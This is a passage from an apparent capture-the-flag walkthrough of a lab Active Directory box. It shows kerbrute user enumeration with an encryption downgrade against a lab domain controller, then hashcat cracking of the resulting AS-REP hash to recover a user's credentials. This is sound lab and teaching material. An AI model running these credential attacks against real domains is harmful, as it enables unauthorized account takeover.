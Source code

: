 Hashcat was exhausted and didn’t found any valid password.

Also we noticed that the hashcat mode that we are using is etype23 and the hashcat we got has an etype of 18.

So now we again ran kerbrute with —downgrade option to get the etype 23 hash

```bash
kerbrute userenum --downgrade --dc 10.10.238.231 -d fusion.corp usernames.txt
```

![image.png](/assets/images/FusionCorpTHM/image%2013.png)

Now running hashcat to crack this etype23 hash.

```bash
hashcat -m 18200 ./hashes.txt /usr/share/wordlists/rockyou.txt
```

![image.png](/assets/images/FusionCorpTHM/image%2014.png)

Resulted in successfully cracking the hash.

Now we have the creds for lparker@fusion.corp

## Shell as Lparker

After getting creds for lparker we tried doing SMB enumeration.

